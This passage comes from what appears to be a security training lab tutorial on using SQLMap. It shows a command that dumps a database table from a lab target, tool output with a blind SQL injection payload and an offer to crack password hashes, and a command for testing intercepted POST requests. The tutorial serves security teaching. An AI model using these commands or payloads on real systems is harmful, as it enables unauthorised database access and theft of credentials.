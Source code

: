 Now that we have all the available table names of the database, let's dump the records present in the thomas table. To do so, we will define the database with the `-D` flag, the table with the `-T` flag, and for extracting the records of the table, we will use the `--dump` flag.

```shell
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thmsearch/cat=1 -D users -T thomas --dump
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:51:48] [INFO] resuming back-end DBMS' mysql' 
[08:51:48] [INFO] testing connection to the target URL
[08:51:49] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
[text removed]
[08:51:49] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[08:51:49] [INFO] fetching columns for table 'thomas' in database 'users'
[08:51:49] [INFO] fetching entries for table 'thomas' in database' users'
[08:51:49] [INFO] recognized possible password hashes in column 'passhash'
do you want to store hashes to a temporary file for eventual further processing n
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: users
Table: thomas
[1 entry]
+---------------------+------------+---------+
| Date                | name       | pass    |    
+---------------------+------------+----------
| 09/09/2024          | Thomas THM | testing |    
+---------------------+------------+---------+

[text removed]
```

However, unlike the URL used for testing above, you can also use POST-based testing, where the application sends data in the request's body instead of the URL. Examples of this could be login forms, registration forms, etc. To follow this approach, you must intercept a POST request on the login or registration page and save it as a text file. You can use the following command to input that request saved in the text file to the **SQLMap** tool:

```shell
user@ubuntu:~$ sqlmap -r intercepted_request.txt
```
Note: Learning how to intercept and capture POST requests is out-of-scope for this room.

